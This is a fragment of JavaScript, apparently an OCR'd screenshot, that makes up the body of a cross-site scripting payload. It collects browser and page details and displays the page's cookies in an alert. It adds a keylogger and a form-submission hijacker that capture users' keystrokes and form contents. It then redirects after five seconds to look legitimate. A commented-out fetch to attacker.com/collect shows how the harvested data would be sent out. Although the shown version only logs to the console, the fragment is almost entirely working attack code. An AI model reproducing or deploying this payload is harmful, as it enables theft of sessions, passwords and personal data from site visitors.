 ```html
            userAgent: navigator.userAgent,
            platform: navigator.platform,
            language: navigator.language,
            
            // Page context
            url: window.location.href,
            referrer: document.referrer,
            title: document.title,
            
            // Timing information
            timestamp: new Date().toISOString(),
            timezone: Intl.DateTimeFormat().resolvedOptions().timeZone
        };
        
        // Display stolen data in console
        console.log('STOLEN DATA:', harvestData);
        
        // Show alert to demonstrate successful XSS
        alert('XSS SUCCESSFUL!\n\nSession Data Captured:\n' + 
              'Cookies: ' + document.cookie + '\n' +
              'URL: ' + window.location.href + '\n' +
              'User Agent: ' + navigator.userAgent);
        
        // Simulate sending data to attacker server
        console.log('Sending stolen data to attacker server...');
        
        // In a real attack, this would send data to attacker's server:
        // fetch('https://attacker.com/collect', {
        //     method: 'POST',
        //     body: JSON.stringify(harvestData)
        // });
        
        // Keylogger functionality
        let keystrokes = [];
        document.addEventListener('keypress', function(e) {
            keystrokes.push({
                key: e.key,
                timestamp: new Date().toISOString(),
                target: e.target.tagName
            });
            
            // Log every 5 keystrokes
            if (keystrokes.length % 5 === 0) {
                console.log('CAPTURED KEYSTROKES:', keystrokes.slice(-5));
            }
        });
        
        // Form hijacking
        document.addEventListener('submit', function(e) {
            const formData = new FormData(e.target);
            const formObject = {};
            formData.forEach((value, key) => {
                formObject[key] = value;
            });
            
            console.log('FORM SUBMITTED:', formObject);
            alert('Form data captured: ' + JSON.stringify(formObject));
        });
        
        // Redirect after 5 seconds to appear legitimate
        setTimeout(function() {
            window.location.href = '/';
        }, 5000);
```